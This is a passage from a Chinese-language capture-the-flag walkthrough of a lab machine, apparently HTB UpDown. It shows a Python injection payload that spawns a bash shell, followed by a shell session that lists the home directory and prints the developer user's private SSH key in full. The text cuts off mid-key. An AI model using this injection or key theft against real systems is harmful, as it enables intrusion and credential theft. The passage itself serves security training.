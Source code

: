         Enter URL here:__import__('os').system('bash')
        __import__('os').system('bash')
        developer@updown:/home/developer/dev$ id
        id
        uid=1002(developer) gid=33(www-data) groups=33(www-data)
        ```

    + 此时仍然会访问不了`user.txt`文件，因为虽然是`developer`用户，但所在组还是`www-data`,幸运的是在`developer`下发现了`.ssh`文件夹，将`id_rsa`文件内容转存到本地进行ssh访问：

        ```
        developer@updown:/home/developer/dev$ cd ..
        cd ..
        developer@updown:/home/developer$ ls -lah
        ls -lah
        total 40K
        drwxr-xr-x 6 developer developer 4.0K Aug 30  2022 .
        drwxr-xr-x 3 root      root      4.0K Jun 22  2022 ..
        lrwxrwxrwx 1 root      root         9 Jul 27  2022 .bash_history -> /dev/null
        -rw-r--r-- 1 developer developer  231 Jun 22  2022 .bash_logout
        -rw-r--r-- 1 developer developer 3.7K Feb 25  2020 .bashrc
        drwx------ 2 developer developer 4.0K Aug 30  2022 .cache
        drwxrwxr-x 3 developer developer 4.0K Aug  1  2022 .local
        -rw-r--r-- 1 developer developer  807 Feb 25  2020 .profile
        drwx------ 2 developer developer 4.0K Aug  2  2022 .ssh
        drwxr-x--- 2 developer www-data  4.0K Jun 22  2022 dev
        -rw-r----- 1 root      developer   33 Feb 19 08:17 user.txt
        developer@updown:/home/developer$ cd .ssh
        cd .ssh
        developer@updown:/home/developer/.ssh$ dir
        dir
        authorized_keys  id_rsa  id_rsa.pub
        developer@updown:/home/developer/.ssh$ cat id_rsa
        cat id_rsa
        -----BEGIN OPENSSH PRIVATE KEY-----
        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